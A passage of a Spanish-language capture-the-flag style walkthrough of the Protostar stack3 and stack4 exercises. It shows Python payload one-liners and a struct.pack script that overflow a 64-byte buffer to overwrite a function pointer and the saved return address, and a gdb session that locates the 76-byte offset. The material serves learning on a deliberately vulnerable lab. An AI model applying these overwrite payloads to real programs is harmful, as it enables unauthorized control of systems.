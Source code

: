 ```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64 + '\x24\x84\x04\x08')" | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
Con python se puede meter la memoria sin tener que darle la vuelta gracias al módulo "struct"

```python
import struct
payload = "A"*64
payload += struct.pack('I', 0x08048424)
print payload
```
```console
[user@protostar]-[/opt/protostar/bin]:$ python /tmp/exploit.py | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
---------------------------------------------------------------------------

# Sobreescribir un puntero de instruccion 2 
> [stack4](https://exploit.education/protostar/stack-four/)

La teoría es la misma que con el caso anterior, solo que este es algo mas realista ya que el eip no esta pegado al final del buffer.

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64)" | ./stack4
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*76)" | ./stack4
Segmentation fault
```
Para ver lo que está pasando, vamos a hacer un patrón reconocible y pasarlo por gdb.

```console
[user@protostar]-[/opt/protostar/bin]:$ python -c "print('A'*64 + 'BBBBCCCCDDDDEEEEFFFFGGGG')" > /tmp/pattern
[user@protostar]-[/opt/protostar/bin]:$ gdb ./stack4
(gdb) b *0x0804841d -> Ponemos el breakpoint en la instrucción "leave"
(gdb) run < /tmp/pattern
Breakpoint alcazado!
(gdb) x/40wx $esp
0xbffff650:	0xbffff660	0xb7ec6165	0xbffff668	0xb7eada75
0xbffff660:	0x41414141	0x41414141	0x41414141	0x41414141
...
0xbffff690:	0x41414141	0x41414141	0x41414141	0x41414141
0xbffff6a0:	0x42424242	0x43434343	0x44444444	0x45454545
0xbffff6b0:	0x46464646	0x47474747	0xbffff700	0xb7fe1848
Program received signal SIGSEGV, Segmentation fault.
0x45454545 in ?? ()
(gdb) p 0xbffff6ac - 0xbffff660
$1 = 76 -> Justo donde antes nos daba SEGFAULT
```
Ahora la instrucción win es 0x080483f4 o "\xf4\x83\x04\x08"
